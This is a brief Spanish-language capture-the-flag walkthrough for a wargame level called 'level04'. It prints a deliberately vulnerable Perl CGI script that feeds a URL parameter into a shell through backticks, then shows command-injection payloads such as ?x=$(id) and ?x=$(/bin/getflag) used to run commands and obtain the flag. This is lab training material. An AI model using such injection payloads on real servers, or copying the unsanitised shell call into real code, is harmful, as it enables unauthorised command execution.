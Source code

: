 - Encuentro en /home/level04 un fichero level04.pl
cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
- Busco el archivo en la VM find / -name level04.pl 2>/dev/null
- Está tambien en var/www/level04/level04.pl
- Deduzco por el script que hay un servidor web levantado en localhost:4747
- pongo la dirección ip de VM :4747 en la barra del navegador y no da error
- El script parece que hace echo sobre el primer parametro y lo muestra
- Pongo en la barra del navegador VMip:4747/?x=hola y muestra en el navegador hola
- Pongo en la barra del navegador VMip:4747/?x=$(id) y muestra en el navegador el output del comando id
- Se tiene ejecución de comandos
- VMip:4747/?x=$(/bin/getflag) y obtengo la flag

